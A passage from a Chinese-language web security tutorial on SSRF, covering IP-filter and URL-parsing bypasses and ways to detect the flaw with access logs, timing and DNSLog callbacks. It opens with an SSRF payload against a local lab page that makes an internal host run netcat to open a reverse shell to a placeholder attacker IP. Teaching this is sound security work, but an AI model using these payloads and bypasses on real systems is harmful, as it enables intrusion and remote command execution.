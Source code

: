 ```java
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://192.168.x.x/vul.php?cmd=nc [攻击者 ip] 4444 --e /bin/bash;
```

#### 4.绕过 IP 限制

有些网站可能会限制访问 IP，此时就可以尝试使用以下方法绕过：

* **IPv6 地址**，如 http://2000::1:2345:6789:abcd；

* **十进制 IP**，如 http://2130706433，相当于 127.0.0.1；

* **八进制 IP**，如 http://0177.0.0.01，相当于 127.0.0.1；

* **十六进制 IP**，如 http://0x7f.0x0.0x0.0x1，相当于 127.0.0.1；

* **多进制混合 IP**，如 http://0177.0x0.0x0.1，相当于 127.0.0.1；

* **Localhost 替代**，如 http://127.127.127.127、http://0.0.0.0、http://127.1 等。

#### 5.绕过 URL 解析限制

如果存在 URL 限制，可以尝试以下方法绕过：

* **使用其他可用的协议**，可参考图 4 进行测试；

* **URL 欺骗方式**，如 http://127.1.1.1@127.2.2.2、http://evil$google.com、http://google.com#@evil.com......

* **302 跳转切换协议**，如请求头注入"Location: dict://lagou.com"

* **Unicode 转换**，如 http://evil.c ℀.office.com

以上我向你介绍了一些常见的 SSRF 限制策略与绕过手段，这些情况还是比较常用的，甚至有些漏洞修复后，用上述方法又被绕过了。掌握限制绕过方法也是挖掘 SSRF 漏洞的必备技巧，下面，我再来带你了解下如何挖掘 SSRF 漏洞。

### SSRF 漏洞挖掘思路

要进行 SSRF 漏洞的防御，我们先要判断是否存在 SSRF 漏洞。

#### 1.如何判断是否存在 SSRF 漏洞

判断 SSRF 漏洞是否存在，主要有以下 4 种方式：

* **回显判断**：如图 3 那种有返回请求结果并会显示出来，这种比较好判断。

* **访问日志检查**：伪造请求到自己控制的公网服务器，然后在服务器上查看访问日志是否有来自漏洞服务器的请求，或者直接使用命令"nc -lvp"来监听请求。

* **延时对比**：对比访问不同 IP/域名的访问时长，比如对百度与 Google（国内访问受限）的访问时间，访问百度的时间通常比Google快，若是则可能存在漏洞。

* **DNS 请求检测** ：自己搭建 DNS 服务器，或者利用网上的 DNSLog 服务（比如<http://www.dnslog.cn/>），生成一个域名（l08bgh.dnslog.cn）用于伪造请求，看漏洞服务器是否发起 DNS 解析请求，若成功访问在 DNSLog.cn 上就会有解析日志。

构建以下链接，访问后再 DSNLog 上就会看到相应的解析日志了：

```java
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://l08bgh.dnslog.cn
```


<Image alt="图片6.png" src="https://s0.lgstatic.com/i/image/M00/8D/9D/CgqCHmAADkGAIcZZAAMGZOUjpvY507.png"/> 
  